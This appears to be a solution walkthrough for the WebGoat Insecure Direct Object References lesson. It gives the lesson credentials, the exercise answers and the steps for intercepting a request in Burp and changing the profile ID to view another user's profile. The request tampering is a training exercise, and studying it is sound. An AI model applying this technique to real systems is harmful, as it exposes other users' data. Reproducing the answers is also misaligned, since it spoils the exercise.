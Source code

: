 # Insecure Direct Object References

## 2 - Authenticate First, Abuse Authorization Later

user/pass user: `tom`
pass: `cat`


## 3 - Observing Differences & Behaviors

1. When click on View Profile

Request
```
GET /WebGoat/IDOR/profile 
```
On Screen
```
ame:Tom Cat
color:yellow
size:small
```
In the response
```
{
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
}
```

Answer: 

Submit Diff: `role,userId`

## 4 - Guessing & Predicting Patterns

Answer:

URL to view your own profile: 
```
WebGoat/IDOR/profile/2342384
```

## 5 - Playing with the Patterns
### View another profile
1. Click on View Profile button
2. Intercept with Burp
3. Change the URL from
```
GET /WebGoat/IDOR/profile/%7BuserId%7D
```

to 
```
GET /WebGoat/IDOR/profile/1
```


### Edit Another Profile